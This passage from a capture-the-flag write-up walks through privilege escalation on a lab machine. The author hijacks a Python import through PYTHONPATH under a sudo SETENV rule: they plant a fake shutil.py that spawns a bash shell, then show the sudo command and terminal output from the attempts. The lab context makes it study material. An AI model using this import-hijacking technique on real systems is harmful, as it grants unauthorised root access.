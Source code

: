 ### SETENV and sudo

I had an idea that since this python script was being run as root that maybe I could get it to read a file of my choice, however all of the files referenced in the python script has absolute paths so no no hijacking seemed possible there. 

I did some research for `sudo setenv python` since I saw in my `sudo -l` output the word `SETENV` listed in front of the bash script I could run. In the search results was a very interesting article that talked about hijacking python library imports. 

* [https://stackoverflow.com/questions/7969540/pythonpath-not-working-for-sudo-on-gnu-linux-works-for-root](https://stackoverflow.com/questions/7969540/pythonpath-not-working-for-sudo-on-gnu-linux-works-for-root) [https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

> SCENARIO 3: Redirecting Python Library Search through PYTHONPATH Environment Variable
>
> The PYTHONPATH environment variable indicates a directory \(or directories\), where Python can search for modules to import.
>
> It can be abused if the user got privileges to set or modify that variable, usually through a script that can run with sudo permissions and got the SETENV tag set into /etc/sudoers file.

This sounded exactly like the situation I had found.

```python
import os

def make_archive():
    os.system('/bin/bash')
    os.system('echo I am g`whoami`')
```

Armed with this information, I wrote a short python library to replace the one referenced in the script.  I named it `shutil.py` so the script would call it instead of the real one, and also made a function named `make_archive()` since this was what was specifically being imported.  I wrote my function so that it would create a bash shell, and then echo my new username.  

```python
waldo@admirer:/dev/shm$ vi shutil.py 
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 3, in <module>
    from shutil import make_archive
ImportError: cannot import name 'make_archive'
whoami
waldo
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 12, in <module>
    make_archive(dst, 'gztar', src)
```